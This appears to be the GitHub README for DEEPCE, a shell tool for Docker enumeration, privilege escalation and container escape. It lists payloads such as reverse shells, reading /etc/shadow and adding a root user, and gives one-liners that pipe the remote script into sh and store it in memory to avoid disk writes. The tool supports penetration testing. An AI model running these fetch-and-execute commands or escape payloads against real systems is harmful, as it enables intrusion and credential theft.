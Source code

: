 # deepce

```
                      ##         .
                ## ## ##        ==
             ## ## ## ##       ===
         /"""""""""""""""""\___/ ===
    ~~~ {~~ ~~~~ ~~~ ~~~~ ~~~ ~ /  ===- ~~~
         \______ X           __/
           \    \         __/
            \____\_______/
          __                        
     ____/ /__  ___  ____  ________ 
    / __  / _ \/ _ \/ __ \/ ___/ _ \   ENUMERATE
   / /_/ /  __/  __/ /_/ / (__/  __/  ESCALATE
   \__,_/\___/\___/ .___/\___/\___/  ESCAPE
                 /_/
```

Docker Enumeration, Escalation of Privileges and Container Escapes (DEEPCE)

In order for it to be compatible with the maximum number of containers DEEPCE is written in pure `sh` with no dependancies. It will make use of additional tools such as curl, nmap, nslookup and dig if avaliable but for the most part is not reliant upon them for enumeration.

None of the enumeration should touch the disk, however most of the exploits create new containers which will cause disk writes and some of the exploits overwrite runC which can be destructive, so be careful!

Please see below for a list of the enumerations, exploits and payloads DEEPCE can use. If you have ideas for any more please submit an issue in github!

# Downloading

DEEPCE can be downloaded onto a host or container using one of the following one-liners. Tip: download to `/dev/shm` to avoid touching the disk when downloading.

```bash
wget https://github.com/stealthcopter/deepce/raw/master/deepce.sh
curl -s https://github.com/stealthcopter/deepce/raw/master/deepce.sh -o deepce.sh
# Or using python requests
python -c 'import requests;print(requests.get("https://github.com/stealthcopter/deepce/raw/master/deepce.sh").content)' > deepce.sh 
python3 -c 'import requests;print(requests.get("https://github.com/stealthcopter/deepce/raw/master/deepce.sh").content.decode("utf-8"))' > deepce.sh  
```

# Screenshots
For more please view the [docs folder](https://github.com/stealthcopter/deepce/tree/master/docs)
![screenshot1](docs/ubuntu-install-tools.png "Screenshot 1")

## Enumerations

The following is the list of enumerations performed by DEEPCE. 

- Container ID & name (via reverse dns)
- Container IP / DNS Server
- Docker Version
- Interesting mounts
- Passwords in common files
- Environment variables
- Password hashes
- Common sensitive files stored in containers
- Other containers on same network
- Port scan other container and the host machine
- Find exposed docker sock

## Exploits

- Docker Group Privledge Escaltion
- Priveledged mode host command execution
- Exposed Docker Sock

## Payloads

For each of the exploits above payloads can be defined in order to exploit the host system. These include:

- Reverse TCP shell
- Print /etc/shadow
- Add new root user
- Run custom commands
- Run custom payload binaries

# Examples
```bash
./deepce.sh 
```

# Advanced Usage

It is possible to download and run deepce without touching the disk, however you will be unable easily set arguments (direct maniuplation of variables is possible using export).

```bash
wget -O - https://github.com/stealthcopter/deepce/raw/master/deepce.sh | sh
curl -s https://github.com/stealthcopter/deepce/raw/master/deepce.sh | sh
```

# Inspiration

There are some great container enumeration/escape scripts and enumeration tools that I've got inspiration from when writing this. Howevr I felt the need to write one purely in `sh` in order to avoid having to install go / ruby dependancies or be reliant on a static binary. I also wanted to be able to perform more enumerations to try to discover what the docker container is as during as test we may end up inside an unknown container. The number of things this script can enumerate got away from me as every time I added something new I thought of more additional things I could add.

- [LinPEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS)
- [LinEnum](https://github.com/rebootuser/LinEnum)
- [BotB](https://github.com/brompwnie/botb)
- [Harpoon](https://github.com/ProfessionallyEvil/harpoon)

# Resources

Developer looking for Docker security tips
https://github.com/OWASP/CheatSheetSeries/blob/master/cheatsheets/Docker_Security_Cheat_Sheet.md


# Contributing

I welcome pull requests, issues and feedback.

- Fork it
- Create your feature branch (git checkout -b my-new-feature)
- Commit your changes (git commit -am 'Added some feature')
- Push to the branch (git push origin my-new-feature)
- Create new Pull Request


